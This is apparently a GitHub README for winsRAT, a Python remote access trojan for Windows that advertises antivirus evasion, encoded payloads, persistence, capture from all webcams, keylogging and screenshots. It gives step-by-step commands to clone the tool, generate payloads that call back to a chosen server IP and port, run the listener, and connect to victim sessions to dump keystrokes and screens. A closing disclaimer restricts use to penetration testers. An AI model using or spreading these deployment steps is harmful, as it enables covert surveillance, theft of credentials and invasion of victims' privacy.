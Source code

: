 <h1 align="center"> 
    <img src="https://user-images.githubusercontent.com/29171692/89164677-00e3e480-d595-11ea-9cf1-f27ab1faf432.png" alt="SillyRAT" /> <br>    
    winsRAT Under continuous development (Beta winsRAT)
</h1>
<p align="center">
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <a href="https://github.com/ThemeHackers/winsRAT/releases" target="_blank"><img src="https://img.shields.io/badge/version-v2.1-blue.svg?logo=moo" alt="Release: v3.1" /></a>
    <a href="https://opensource.org/license/gpl-3-0" target="_blank"><img src="https://img.shields.io/badge/license-GPL-green.svg" alt="lisence" /></a>
</p>
<h4 align="center">Windows RAT</h4>
<h4 align="center">If you find any issues with the code, you can open an Issue</h4>
<h4 align="center">We are currently experiencing issues with the webcam module, screen sharing module, and anti-VM module. We are working on fixing these issues, and the Webcam function is now complete. We will implement the fix as soon as possible and continue developing other modules</h4>

## Problem solving in progress
- Fixing module errors
- Anti-VM Modules
- Screenshare Modules

## Getting Started
### Description
winsRAT is written entirely in Python, developed from SillyRAT. winsRAT is a RAT specifically for Windows operating systems and has additional features. Server.py can generate two types of files: .exe files and source files.

### Features
This image shows the features of the tool.
<h6 align="center"><img src="/img/features.png"></h6>
And others, stay tuned.

### High-level features

- Avoid AV
- The payload is base64 encoded.
- The webcam module is developed to capture images of multiple devices on the connected target machine. For example, if the target machine has 5 webcams, this module will capture images of all 5 devices immediately when using the webcam command on the server.
- Reconnecting to increase retention
- And others, stay tuned.

### Installation
The tool is tested on **Windows** with **Python 3.13.4**. 
Follow the steps for installation:
```
$ git clone https://github.com/ThemeHackers/winsRAT
$ cd winsRAT/
$ pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>

Source file

```
$ python3 server.py generate -a server_ip -p server_port -o "C:\Users\{...}\Downloads\{name_output}" -s -per
$ python3 server.py generate -a 192.168.1.100 -p 9001 -o "C:\Users\1com3456\Downloads\winsrat" -s -per
```
Compiled file

```
$ python3 server.py generate -a server_ip -p server_port -o "C:\Users\{...}\Downloads\{name_output}"
$ python3 server.py generate -a 192.168.1.100 -p 9001 -o  "C:\Users\1com3456\Downloads\winsrat"
```

<h6 align="center"><img src="/img/generate.png"></h6>

Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Windows. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```
$ python3 server.py bind -a 0.0.0.0 -p 9001
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

<h6 align="center"><img src="/img/sessions.png"></h6>

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```

<h6 align="center"><img src="/img/kl_scr.png"></h6>

### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

### Credit
Twitter: <a href="//twitter.com/hash3liZer">@hash3liZer</a><br>
Discord: TheFlash2k#0407

### Support the improvement 
Instagram: <a href="https://www.instagram.com/_tthemzdl5678/">_tthemzdl5678</a><br>
Github: <a href="https://github.com/ThemeHackers/">ThemeHackers</a><br>
### Disclaimer
This tool is only for use by penetration testers or security testers. The author is not responsible for any illegal actions in your country.

